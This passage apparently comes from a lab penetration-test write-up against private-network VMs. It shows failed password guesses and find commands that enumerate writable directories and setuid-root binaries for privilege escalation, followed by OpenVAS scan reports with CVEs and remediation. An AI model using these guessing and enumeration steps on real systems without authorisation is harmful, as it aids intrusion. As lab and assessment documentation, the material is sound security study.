Password: [meTarzanSuperUser
Login incorrect
$ login john
Password: [AiAiAi....]
Login incorrect
```

Damnit :(

### Where am I allowed?

So let's find out where we can read and write, this may be useful information, right? Time to scan for group or world writeable directories and see what we get.

```
$ find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -ldoha {} \;
drwxrwxr-x  2 root  wsrc  -  512B Aug 16  2010 /usr/obj
drwxrwxr-x  2 root  wsrc  -  512B Aug 16  2010 /usr/src
drwxrwxr-x  2 root  wsrc  -  512B Aug 16  2010 /usr/xobj
drwxrwxrwt  2 root  wheel  -  512B Oct 29 01:30 /tmp
drwxrws---  2 root  wheel  -  512B Aug 16  2010 /var/audit
drwxrwx---  2 root  authpf  -  512B Aug 16  2010 /var/authpf
drwxrwx---  2 root  wheel  -  512B Oct  3 21:02 /var/crash
drwxrwx--T  2 root  crontab  -  512B Aug 16  2010 /var/cron/atjobs
drwx-wx--T  2 root  crontab  -  512B Oct 28 06:07 /var/cron/tabs
drwxrwxr-x  5 root  games  -  512B Oct  3 21:02 /var/games
drwxrwxr-x  3 root  games  -  512B Aug 16  2010 /var/games/hackdir
drwxrwx---  2 root  games  -  512B Aug 16  2010 /var/games/hackdir/save
drwxrwxr-x  2 root  games  -  512B Aug 16  2010 /var/games/phantasia
drwxrwxr-x  2 root  games  -  512B Aug 16  2010 /var/games/save
drwxrwxr-x  2 root  named  -  512B Aug 16  2010 /var/named/tmp
drwxrwxr-x  2 root  named  -  512B Aug 16  2010 /var/named/slave
drwxrwx---  2 smmsp  smmsp  -  512B Oct 29 01:30 /var/spool/clientmqueue
drwxrwxr-t  2 uucp  dialer  -  512B Aug 16  2010 /var/spool/lock
drwxrwxr-x  2 root  daemon  -  512B Aug 16  2010 /var/spool/output
drwxrwxr-t  2 uucp  daemon  -  512B Aug 16  2010 /var/spool/uucppublic
drwxrwxrwt  3 root  wheel  -  512B Aug 16  2010 /var/tmp
drwxrwxrwt  2 root  wheel  -  512B Oct 28 18:58 /var/tmp/vi.recover
$ 
```


### Can I hitch a ride?
Well, alright ... Now we know where we can go, but is there perhaps a way for us to expand our cybernetic consciousness here? Perhaps ... we can find a path to the enlightened one, the Bodhisattva of this system, the second to root: `john`. Or, can we become that person?

Let's check what files have the `setuid` bit set, and are owned by root. Perhaps if we're lucky, we can hitch a ride and perform some sort of action through one of those files if we're lucky?

```
$ find / -user root -perm -4000 -exec ls -ldoh {} \;
-r-sr-xr-x  3 root  bin  - 24.4K Aug 16  2010 /usr/bin/chfn
-r-sr-xr-x  3 root  bin  - 24.4K Aug 16  2010 /usr/bin/chpass
-r-sr-xr-x  3 root  bin  - 24.4K Aug 16  2010 /usr/bin/chsh
-r-sr-sr-x  1 root  daemon  - 23.6K Aug 16  2010 /usr/bin/lpr
-r-sr-sr-x  1 root  daemon  - 22.1K Aug 16  2010 /usr/bin/lprm
-r-sr-xr-x  1 root  bin  - 26.2K Aug 16  2010 /usr/bin/passwd
-r-sr-xr-x  1 root  bin  - 10.1K Aug 16  2010 /usr/bin/rsh
-r-sr-xr-x  1 root  bin  - 14.6K Aug 16  2010 /usr/bin/su
-r-sr-xr-x  2 root  bin  -  123K Aug 16  2010 /usr/bin/sudo
-r-sr-xr-x  2 root  bin  -  123K Aug 16  2010 /usr/bin/sudoedit
-r-sr-xr-x  1 root  bin  -  9.8K Aug 16  2010 /usr/libexec/lockspool
-r-sr-xr-x  1 root  bin  -  164K Aug 16  2010 /usr/libexec/ssh-keysign
-r-sr-sr-x  2 root  authpf  - 21.9K Aug 16  2010 /usr/sbin/authpf
-r-sr-sr-x  2 root  authpf  - 21.9K Aug 16  2010 /usr/sbin/authpf-noip
-r-sr-x---  1 root  network  -  391K Aug 16  2010 /usr/sbin/ppp
-r-sr-x---  1 root  network  -  106K Aug 16  2010 /usr/sbin/pppd
-r-sr-x---  1 root  network  - 10.4K Aug 16  2010 /usr/sbin/sliplogin
-r-sr-xr-x  1 root  bin  -  181K Aug 16  2010 /usr/sbin/traceroute
-r-sr-xr-x  1 root  bin  -  181K Aug 16  2010 /usr/sbin/traceroute6
-r-sr-xr-x  1 root  bin  -  210K Aug 16  2010 /sbin/ping
-r-sr-xr-x  1 root  bin  -  226K Aug 16  2010 /sbin/ping6
-r-sr-x---  1 root  operator  -  194K Aug 16  2010 /sbin/shutdown
```

I also performed a scan for what files we can read, but the list is very exhaustive ... After using this command: `find / -type d \( -perm -o=r \) -exec ls -ldoha {} \;` the most interesting things were some files in the `/var/log` directory; the `/etc/` configuration directory (including SSH! The possibly vulnerable service we found which we can read the configuration for!)

## What can we actually do here?
Yeah ... Then there's that... SSH is in default configuration and not vulnerable to the OpenSSH wildcard exploit it seems :( And here we are ...


# Scan Results (OpenVAS)

Here's the OpenVAS Scan Reports for each VM:

## OpenBSD 4.x

* Scan started: **Mon Oct 27 02:13:47 2014 UTC** 
* Scan ended:   **Mon Oct 27 03:05:42 2014 UTC**

### Report Summary
------------

| Host            |  Start  				 |  End      		    |  High   |  Medium |  Low    |  Log    | False Positive |
|:---------------:|:----------------:|:----------------:|:-------:|:-------:|:-------:|:-------:|:--------------:|
|192.168.248.130  |Oct 27, (02:14:02)|Oct 27, (02:58:57)|  0      |   3     |    0    |     0   |      0				 |
|									|									 |									|					|					|					|					|								 |
|Total: 1					|									 |                  |  0      |   3     |    0    |     0   |      0         |
-------------------


### Port Summary for Host 192.168.248.130 (OpenBSD 4.x)


| Service (Port) |  Threat Level |
|:---------------|---------------|
|  ssh (22/tcp)  | Medium				 |
|  general/tcp   | Medium        |


### Security Issues for Host 192.168.248.130 (OpenBSD 4.x)

| Issue | Info														|
|:------|:--------------------------------|
|**Threat:**| **Medium (CVSS: 2.6)**|
|NVT:   |TCP timestamps |
|OID:   | 1.3.6.1.4.1.25623.1.0.80091|
|Port:  | general/tcp|

|**Description:**|
|:---------------|
|It was detected that the host implements RFC1323.<br>The following timestamps were retrieved with a delay of 1 seconds in-between:|
|Paket 1: 721791790|
|Paket 2: -351001889|

<table>
	<tr>
		<th colspan="2">References</th>
	</tr>
	<tr><td>URL:</td><td>http://www.ietf.org/rfc/rfc1323.txt</td></tr>
</table>

-------------------------

| Issue | Info														|
|:------|:--------------------------------|
|**Threat:**| **Medium (CVSS: 5.0)**|
|NVT:   | OpenSSH Legacy Certificate Signing Information Disclosure Vulnerability|
|OID:   | 1.3.6.1.4.1.25623.1.0.103064|
|Port:  | ssh (22/tcp)|

|**Description:**|
|:---------------|
|Checks whether OpenSSH is prone to an information-disclosure vulnerability.<br>Successful exploits will allow attackers to gain access to sensitive<br>information; this may lead to further attacks.<br>Versions 5.6 and 5.7 of OpenSSH are vulnerable.<br>|
|**Vulnerability Detection:**|
|The SSH banner is analysed for presence of openssh and the version<br>information is then taken from that banner.|
|**Solution:**|
|Updates are available. Please see the references for more information.|

<table>
	<tr>
		<th colspan="2">References</th>
	</tr>
	<tr><td>CVE:</td><td>CVE-2011-0539</td></tr>
  <tr><td>BID:</td><td>46155</td></tr>
  <tr><td>URL:</td><td>https://www.securityfocus.com/bid/46155</td></tr>
  <tr><td>URL:</td><td>http://www.openssh.com/txt/release-5.8</td></tr>
  <tr><td>URL:</td><td>http://www.openssh.com</td></tr>
</table>

-------------------------

| Issue | Info														|
|:------|:--------------------------------|
|**Threat:**|**Medium (CVSS: 3.5)**|
|NVT:   |openssh-server Forced Command Handling Information Disclosure Vulnerability|
|OID:   |1.3.6.1.4.1.25623.1.0.103503|
|Port:  |ssh (22/tcp)|

|**Description:**|
|:---------------|
|According to its banner, the version of OpenSSH installed on the remote<br>host is older than 5.7:|
 ssh-2.0-openssh_5.6|
|**Summary:**|
|The auth_parse_options function in auth-options.c in sshd in OpenSSH before 5.7<br>provides debug messages containing authorized_keys command options, which allows<br>remote authenticated users to obtain potentially sensitive information by<br>reading these messages, as demonstrated by the shared user account required by Gitolite.<br>**NOTE:** this can cross privilege boundaries because a user account may<br>intentionally have no shell or filesystem access, and therefore may have no<br>supported way to read an authorized_keys file in its own home directory.<br>OpenSSH before 5.7 is affected;|
|**Solution:**|
|Updates are available. Please see the references for more information.|

<table>
	<tr>
		<th colspan="2">References</th>
	</tr>
	<tr><td>CVE:</td><td>CVE-2012-0814</td></tr>
  <tr><td>BID:</td><td>51702</td></tr>
  <tr><td>URL:</td><td>http://www.securityfocus.com/bid/51702</td></tr>
  <tr><td>URL:</td><td>http://bugs.debian.org/cgi-bin/bugreport.cgi?bug=657445</td></tr>
  <tr><td>URL:</td><td>http://packages.debian.org/squeeze/openssh-server</td></tr>
  <tr><td>URL:</td><td>https://downloads.avaya.com/css/P8/documents/100161262</td></tr>
</table>


## Windows Vista Business (6000)

This document reports on the results of an automatic security scan.
The report first summarises the results found.
Then, for each host, the report describes every issue found.
Please consider the advice given in each description, in order to rectify
the issue.

Vendor security updates are not trusted.

Overrides are off.  Even when a result has an override, this report uses
the actual threat of the result.

Notes are included in the report.

This report might not show details of all issues that were found.
It only lists hosts that produced issues.
It shows issues that contain the search phrase "192.168.248.131".
Issues with the threat level "Low" are not shown.
Issues with the threat level "Log" are not shown.
Issues with the threat level "Debug" are not shown.
Issues with the threat level "False Positive" are not shown.

This report contains all 5 results selected by the
filtering described above.  Before filtering there were 77 results.


* Scan started: **Mon Oct 27 02:13:47 2014 UTC** 
* Scan ended:   **Mon Oct 27 03:05:42 2014 UTC**


### Report Summary

| Host            |  Start  				 |  End      		    |  High   |  Medium |  Low    |  Log    | False Positive |
|:---------------:|:----------------:|:----------------:|:-------:|:-------:|:-------:|:-------:|:--------------:|
|192.168.248.131  |Oct 27, (02:13:47)|Oct 27, (03:05:42)|  1      |   4     |    0    |     0   |      0				 |
|									|									 |									|					|					|					|					|								 |
|Total: 1					|									 |                  |  1      |   4     |    0    |     0   |      0         |
-------------------


### Security Issues for Host 192.168.248.131 (Windows Vista)
----------------------------------------


|Issue| Info|
|:----|:----|
|**Threat:**| **High (CVSS: 10.0)**|
|NVT: |   Microsoft Windows SMB Server NTLM Multiple Vulnerabilities (971468)|
|OID: |   1.3.6.1.4.1.25623.1.0.902269|
|Port:|   microsoft-ds (445/tcp)|

|**Description:**|
|:---------------|
|This host is missing a critical security update according to Microsoft Bulletin MS10-012.|
|**Vulnerability Insight:**|
|<ul><li> An input validation error exists while processing SMB requests and can<br>be exploited to cause a buffer overflow via a specially crafted SMB packet.</li><li> An error exists in the SMB implementation while parsing SMB packets during<br>the Negotiate phase causing memory corruption via a specially crafted SMB<br>packet.</li><li> NULL pointer dereference error exists in SMB while verifying the 'share'<br>and 'servername' fields in SMB packets causing denial of service.</li><li> A lack of cryptographic entropy when the SMB server generates challenges<br>during SMB NTLM authentication and can be exploited to bypass the<br>authentication mechanism.</li>|
|**Impact:**|
| Successful exploitation will allow remote attackers to execute arbitrary<br>code or cause a denial of service or bypass the authentication mechanism<br>via brute force technique.|
|**Impact Level:** System/Application|
| Affected Software/OS: <br><ul><li>Microsoft Windows 7 </li><li>Microsoft Windows 2000 Service Pack and prior</li><li>Microsoft Windows XP Service Pack 3 and prior</li><li>Microsoft Windows Vista Service Pack 2 and prior</li><li>Microsoft Windows Server 2003 Service Pack 2 and prior</li><li>Microsoft Windows Server 2008 Service Pack 2 and prior</li>
|**Solution:**|
| Run Windows Update and update the listed hotfixes or download and<br>update mentioned hotfixes in the advisory from the below link,<br>http://www.microsoft.com/technet/security/bulletin/ms10-012.mspx|

<table>
	<tr>
		<th colspan="2">References</th>
	</tr>
	<tr><td>CVE:</td><td>CVE-2010-0020,CVE-2010-0021,CVE-2010-0022,CVE-2010-0231</td></tr>
  <tr><td>URL:</td><td>http://secunia.com/advisories/38510/</td></tr>
  <tr><td>URL:</td><td>http://support.microsoft.com/kb/971468</td></tr>
  <tr><td>URL:</td><td>http://www.vupen.com/english/advisories/2010/0345</td></tr>
  <tr><td>URL:</td><td>http://www.microsoft.com/technet/security/bulletin/ms10-012.mspx</td></tr>
</table>

------------------

|Issue | Info |
|:-----|:-----|
|**Threat:**|**Medium (CVSS: 5.0)**|
|NVT:  |  DCE Services Enumeration |
|OID:  |  1.3.6.1.4.1.25623.1.0.10736|
|Port: |  epmap (135/tcp)|

|**Description:**|
|:---------------|
|Distributed Computing Environment (DCE) services running on the remote host <br>can be enumerated by connecting on port 135 and doing the appropriate queries. <br> An attacker may use this fact to gain more knowledge <br>about the remote host.
|**Solution:** |
|Filter incoming traffic to this port.|


|Issue| Info|
|:----|:----|
|**Threat:**|**Medium (CVSS: 5.0)**|
|NVT: |   DCE Services Enumeration|
|OID: |   1.3.6.1.4.1.25623.1.0.10736|
|Port: |  epmap (135/tcp)|

<table>
<tr><th colspan="2">Description:</th></tr>
<tr><td colspan="2">Distributed Computing Environment (DCE) services running on the remote host<br>
can be enumerated by connecting on port 135 and doing the appropriate queries.<br>
An attacker may use this fact to gain more knowledge<br>
about the remote host.</td></tr>
<tr><td colspan="2">Here is the list of DCE services running on this host:</td></tr>
<tr>
	<td>Port:</td> <td>49152/tcp</td>
</tr>
<tr>
	<td></td>
	<td><table>
	<tr><td>UUID:</td><td>d95afe70-a6d5-4259-822e-2c84da1ddb0d, version 1</td></tr>
  <tr><td>Endpoint:</td><td>ncacn_ip_tcp:192.168.248.131[49152]</td></tr>
	</table></td>
</tr>

<tr>
	<td>Port:</td> <td>49153/tcp</td>
</tr>
<tr>
	<td></td>
	<td><table>
		<tr><td>UUID:</td><td>f6beaff7-1e19-4fbb-9f8f-b89e2018337c, version 1</td></tr>
    <tr><td>Endpoint:</td><td>ncacn_ip_tcp:192.168.248.131[49153]</td></tr>
		<tr><td>Annotation:</td><td>Event log TCPIP</td></tr>
		
		<tr><td>UUID:</td><td>3c4728c5-f0ab-448b-bda1-6ce01eb0a6d5, version 1</td></tr>
    <tr><td>Endpoint:</td><td>ncacn_ip_tcp:192.168.248.131[49153]</td></tr>
		<tr><td>Annotation:</td><td>DHCP Client LRPC Endpoint</td></tr>

		<tr><td>UUID:</td><td>3c4728c5-f0ab-448b-bda1-6ce01eb0a6d6, version 1</td></tr>
    <tr><td>Endpoint:</td><td>ncacn_ip_tcp:192.168.248.131[49153]</td></tr>
		<td>Annotation:</td><td>DHCPv6 Client LRPC Endpoint</td></tr>

		<tr><td>UUID:</td><td>3c4728c5-f0ab-448b-bda1-6ce01eb0a6d6, version 1</td></tr>
    <tr><td>Endpoint:</td><td>ncacn_ip_tcp:192.168.248.131[49153]</td></tr>
		<tr><td>Annotation:</td><td>DHCPv6 Client LRPC Endpoint</td></tr>

		<tr><td>UUID:</td><td>06bba54a-be05-49f9-b0a0-30f790261023, version 1</td></tr>
    <tr><td>Endpoint:</td><td>ncacn_ip_tcp:192.168.248.131[49153]</td></tr>
		<tr><td>Annotation:</td><td>Security Center</td></tr>
	</table></td>
</tr>

<tr>
	<td>Port:</td> <td>49154/tcp</td>
</tr>
<tr>
	<td></td>
	<td><table>
		<tr><td>UUID:</td><td>7ea70bcf-48af-4f6a-8968-6a440754d5fa, version 1</td></tr>
    <tr><td>Endpoint:</td><td>ncacn_ip_tcp:192.168.248.131[49154]</td></tr>
		<tr><td>Annotation:</td><td>NSI server endpoint</td></tr>
		
		<tr><td>UUID:</td><td>4b112204-0e19-11d3-b42b-0000f81feb9f, version 1</td></tr>
    <tr><td>Endpoint:</td><td>ncacn_ip_tcp:192.168.248.131[49154]</td></tr>
		<tr><td>Named pipe:</td><td>ssdpsrv</td></tr>
		<tr><td>Win32 service/process:</td><td>ssdpsrv</td></tr>
		<tr><td>Description:</td><td>SSDP service</td></tr>

	</table></td>
</tr>

<tr>
	<td>Port:</td> <td>49155/tcp</td>
</tr>
<tr>
	<td></td>
	<td><table>
		<tr><td>UUID:</td><td>86d35949-83c9-4044-b424-db363231fd0c, version 1</td></tr>
    <tr><td>Endpoint:</td><td>ncacn_ip_tcp:192.168.248.131[49155]</td></tr>
		
		
		<tr><td>UUID:</td><td>a398e520-d59a-4bdd-aa7a-3c1e0303a511, version 1</td></tr>
    <tr><td>Endpoint:</td><td>ncacn_ip_tcp:192.168.248.131[49155]</td></tr>
		<tr><td>Annotation:</td><td>IKE/Authip API</td></tr>

	</table></td>
</tr>

<tr>
	<td>Port:</td> <td>49156/tcp</td>
</tr>
<tr>
	<td></td>
	<td><table>
		<tr><td>UUID:</td><td>12345778-1234-abcd-ef00-0123456789ac, version 1</td></tr>
    <tr><td>Endpoint:</td><td>ncacn_ip_tcp:192.168.248.131[49156]</td></tr>
		<tr><td>Named pipe:</td><td>lsass</td></tr>
		<tr><td>Win32 service/process:</td><td>lsass.exe</td></tr>
		<tr><td>Description:</td><td>SAM access</td></tr>

	</table></td>
</tr>

<tr>
	<td>Port:</td> <td>49157/tcp</td>
</tr>
<tr>
	<td></td>
	<td><table>
		<tr><td>UUID:</td><td>367abb81-9844-35f1-ad32-98f038001003, version 2</td></tr>
    <tr><td>Endpoint:</td><td>ncacn_ip_tcp:192.168.248.131[49157]</td></tr>

	</table></td>
</tr>
<tr>
<th>Solution:</th><td>Filter incoming traffic to these ports</td>
</tr>
</table>

----------------------------------------

|Issue| Info|
|:----|:----|
|**Threat:**| **Medium (CVSS: 3.3)** |
|NVT: | Source routed packets |
|OID: | 1.3.6.1.4.1.25623.1.0.11834 |
|Port:| general/tcp |

|**Description:**|
|:---------------|
|The remote host accepts loose source routed IP packets. |
|The feature was designed for testing purpose. |
|An attacker may use it to circumvent poorly designed IP filtering and exploit another flaw.|
| However, it is not dangerous by itself.|

|**Solution:**|
|:------------|
|Drop source routed packets on this host or on other ingress routers or firewalls.|


--------------------------------


|Issue| Info|
|:----|:----|
|**Threat:| Medium (CVSS: 2.6)** |
|NVT: |   TCP timestamps|
|OID: |   1.3.6.1.4.1.25623.1.0.80091|
|Port: |  general/tcp |

|**Description:**|
|:---------------|
|It was detected that the host implements RFC1323.|
|The following timestamps were retrieved with a delay of 1 seconds in-between:|
|Paket 1: 831744|
|Paket 2: 831845|

<table>
	<tr>
		<th colspan="2">References</th>
	</tr>
	<tr><td>URL:</td><td> http://www.ietf.org/rfc/rfc1323.txt</td></tr>
</table>


## Ubuntu 10.04.3

This document reports on the results of an automatic security scan. The
report first summarises the results found. Then, for each host, the
report describes every issue found. Please consider the advice given in
each description, in order to rectify the issue.

Vendor security updates are not trusted.

Overrides are off. Even when a result has an override, this report uses
the actual threat of the result.

Notes are included in the report.

This report might not show details of all issues that were found. It
only lists hosts that produced issues. It shows issues that contain the
search phrase "192.168.248.129". Issues with the threat level "Low" are
not shown. Issues with the threat level "Log" are not shown. Issues with
the threat level "Debug" are not shown. Issues with the threat level
"False Positive" are not shown.

This report contains all 2 results selected by the filtering described
above. Before filtering there were 77 results.

* Scan started:   **Mon Oct 27 02:13:47 2014** 
* Scan ended:     **Mon Oct 27 03:05:42 2014**


### Report Summary
------------

| Host            |  Start  				 |  End      		    |  High   |  Medium |  Low    |  Log    | False Positive |
|:---------------:|:----------------:|:----------------:|:-------:|:-------:|:-------:|:-------:|:--------------:|
|192.168.248.129  |Oct 27, (02:14:02)|Oct 27, (02:58:57)|  1      |   1     |    0    |     0   |      0				 |
|									|									 |									|					|					|					|					|								 |
|Total: 1					|									 |                  |  1      |   1     |    0    |     0   |      0         |
-------------------


### Port Summary for Host 192.168.248.129 (Ubuntu 10.04.3)


| Service (Port) |  Threat Level |
|:---------------|---------------|
|  general/tcp   | Medium				 |
|  http (80/tcp) | High          |


### Security Issues for Host 192.168.248.129 (Ubuntu 10.04.3)
----------------------------------------

| Issue | Info														|
|:------|:--------------------------------|
|Threat:| High (CVSS: 7.5)								|
|NVT:   | Lighttpd Multiple vulnerabilities|
|OID:   | 1.3.6.1.4.1.25623.1.0.802072 		|
|Port:  | http (80/tcp)										|

<table>
	<tr>
		<th colspan="2">References</th>
	</tr>
	<tr><td>CVE:</td><td> CVE-2014-2323,CVE-2014-2324</td></tr>
	<tr><td>BID:</td><td> 66153,66157</td></tr>
	<tr><td>URL:</td><td> http://osvdb.org/104381</td></tr>
	<tr><td>URL:</td><td> http://osvdb.org/104382</td></tr>
	<tr><td>URL:</td><td> http://seclists.org/oss-sec/2014/q1/561</td></tr>
	<tr><td>URL:</td><td> http://download.lighttpd.net/lighttpd/security/lighttpd_sa_2014_01.txt</td></tr>
</table>

-----------------------

| Issue | Info														|
|:------|:--------------------------------|
|**Threat:** |**Medium (CVSS: 2.6)**	|
|NVT:   | TCP timestamps	|
|OID:    |1.3.6.1.4.1.25623.1.0.80091
|Port:   |general/tcp	|

|**Description**|
|:--------------|
|It was detected that the host implements RFC1323.|
|The following timestamps were retrieved with a delay of 1 seconds in-between:|
|Paket 1: 1776245 |
|Paket 2: 1776498 |

<table>
	<tr>
		<th colspan="2">References</th>
	</tr>
	<tr><td>URL:</td><td> http://www.ietf.org/rfc/rfc1323.txt</td></tr>
</table>

